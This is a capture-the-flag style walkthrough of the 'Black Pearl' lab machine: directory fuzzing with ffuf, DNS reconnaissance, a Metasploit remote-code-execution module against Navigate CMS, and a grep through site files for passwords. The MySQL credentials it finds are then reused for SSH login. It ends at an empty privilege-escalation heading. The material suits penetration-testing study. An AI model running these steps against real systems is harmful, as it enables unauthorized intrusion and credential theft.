 # Black Pearl machine walkthrough
Starting with nmap scan.

## SCREENSHOT

Ok, we have three ports open, 22, 53, 80 for ssh, dns, and http. Start with http and see what it has. Let's search for any usful directories.  

```
ffuf -u http://192.168.0.106/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ
secret
```
Great, we got 'secret'. Let's see it.

## SCREENSHOT

Ok, we may have a potential username "Alek". Nothing else on this site. Let's move to port 53 which is dns.

```
sudo dnsrecon -r 127.0.0.0/24 -n 192.168.0.106
```

This command will look for internal sites inside dns server.

## SCREENSHOT

Yes, found something interesting 'blackpearl.tcm'. To access it, we need to add it to /etc/hosts like that.

```
192.168.0.106   blackpearl.tcm
```

Good, let's visit http://blackpearl.tcm

## SCREENSHOT

It is a php configuration page. Let's do some directory busting again, but on http://blackpearl.tcm this time.

```
ffuf -u http://blackpearl.tcm/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ
navigate
```
Great, we got navigate. Let's see it.

## SCREENSHOT

I tried sql injection, but it didn't work. So, let's search online for any exploit for navigatecms, and i found that https://www.rapid7.com/db/modules/exploit/multi/http/navigate_cms_rce/
Great, metasploit has exploit for it. Opening metasploit.

```
use exploit/multi/http/navigate_cms_rce
set RHOSTS http://blackpearl.tcm
exploit
```

## SCREENSHOT

Great, we are in. We have user www-data. Let's discover the files of that site.

## SCREENSHOT

I want to search in all files for word "password" to see, if can find credentials.

```
grep  -r 'password*' navigate/*  --exclude='*.css' --exclude='*.js' --exclude-dir='lib' --exclude-dir='js' | cut -d: -f1
```
- -r  search in subdirectories
- navigate/* all files inside navigate folder
- --exclude  igonre files of spacific type
- --exclude-dir ignore spacific directories from search

This command will search in all files and dirs inside navigate folder except files of type .css and .js and dirs 'lib' and 'js'. I ignored these files becuase they are not useful.  

## SCREENSHOT

We have a lot of duplicates. we can filter tham by adding a small part.

```
grep  -r 'password*' navigate/*  --exclude='*.css' --exclude='*.js' --exclude-dir='lib' --exclude-dir='js' | cut -d: -f1 | sort | uniq
```

We have a lot of files that have 'password' inside. Exploring them, i found that navigate/cfg/globals.php has mysql credentials.

```
define('PDO_HOSTNAME', "localhost");
define('PDO_PORT',     "3306");
define('PDO_SOCKET',   "");
define('PDO_DATABASE', "navigate");
define('PDO_USERNAME', "alek");
define('PDO_PASSWORD', "H4x0r");
define('PDO_DRIVER',   "mysql");
```
Let's try to login to ssh using that credential.

### SCREENSHOT

Great, now we are alek.

# Privilege Escalation

